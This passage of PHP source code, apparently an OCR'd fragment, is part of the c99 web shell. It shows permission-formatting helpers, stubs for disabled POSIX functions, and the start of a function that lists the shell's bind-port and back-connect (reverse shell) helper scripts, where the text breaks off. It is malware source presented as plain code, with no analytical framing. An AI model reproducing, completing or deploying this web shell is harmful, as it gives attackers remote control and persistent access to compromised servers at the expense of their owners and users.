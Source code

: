  $world["write"] = ($mode & 00002)? "w":"-"; 
 $world["execute"] = ($mode & 00001)?"x":"-"; 
 if ($mode & 0x800) {$owner["execute"] = ($owner["execute"] == "x")?"s":"S";} 
 if ($mode & 0x400) {$group["execute"] = ($group["execute"] == "x")?"s":"S";} 
 if ($mode & 0x200) {$world["execute"] = ($world["execute"] == "x")?"t":"T";} 
 return $type.join("",$owner).join("",$group).join("",$world); 
} 
} 
if (!function_exists("posix_getpwuid") and !in_array("posix_getpwuid",$disablefunc)) {function posix_getpwuid($uid) {return FALSE;}} 
if (!function_exists("posix_getgrgid") and !in_array("posix_getgrgid",$disablefunc)) {function posix_getgrgid($gid) {return FALSE;}} 
if (!function_exists("posix_kill") and !in_array("posix_kill",$disablefunc)) {function posix_kill($gid) {return FALSE;}} 
if (!function_exists("parse_perms")) 
{ 
function parse_perms($mode) 
{ 
 if (($mode & 0xC000) === 0xC000) {$t = "s";} 
 elseif (($mode & 0x4000) === 0x4000) {$t = "d";} 
 elseif (($mode & 0xA000) === 0xA000) {$t = "l";} 
 elseif (($mode & 0x8000) === 0x8000) {$t = "-";} 
 elseif (($mode & 0x6000) === 0x6000) {$t = "b";} 
 elseif (($mode & 0x2000) === 0x2000) {$t = "c";} 
 elseif (($mode & 0x1000) === 0x1000) {$t = "p";} 
 else {$t = "?";} 
 $o["r"] = ($mode & 00400) &gt; 0; $o["w"] = ($mode & 00200) &gt; 0; $o["x"] = ($mode & 00100) &gt; 0; 
 $g["r"] = ($mode & 00040) &gt; 0; $g["w"] = ($mode & 00020) &gt; 0; $g["x"] = ($mode & 00010) &gt; 0; 
 $w["r"] = ($mode & 00004) &gt; 0; $w["w"] = ($mode & 00002) &gt; 0; $w["x"] = ($mode & 00001) &gt; 0; 
 return array("t"=&gt;$t,"o"=&gt;$o,"g"=&gt;$g,"w"=&gt;$w); 
} 
} 
if (!function_exists("parsesort")) 
{ 
function parsesort($sort) 
{ 
 $one = intval($sort); 
 $second = substr($sort,-1); 
 if ($second != "d") {$second = "a";} 
 return array($one,$second); 
} 
} 
if (!function_exists("view_perms_color")) 
{ 
function view_perms_color($o) 
{ 
 if (!is_readable($o)) {return "&lt;font color=red&gt;".view_perms(fileperms($o))."&lt;/font&gt;";} 
 elseif (!is_writable($o)) {return "&lt;font color=white&gt;".view_perms(fileperms($o))."&lt;/font&gt;";} 
 else {return "&lt;font color=green&gt;".view_perms(fileperms($o))."&lt;/font&gt;";} 
} 
} 
if (!function_exists("c99getsource")) 
{ 
function c99getsource($fn) 
{ 
 global $c99sh_sourcesurl; 
 $array = array( 
  "c99sh_bindport.pl" =&gt; "c99sh_bindport_pl.txt", 
  "c99sh_bindport.c" =&gt; "c99sh_bindport_c.txt", 
  "c99sh_backconn.pl" =&gt; "c99sh_backconn_pl.txt", 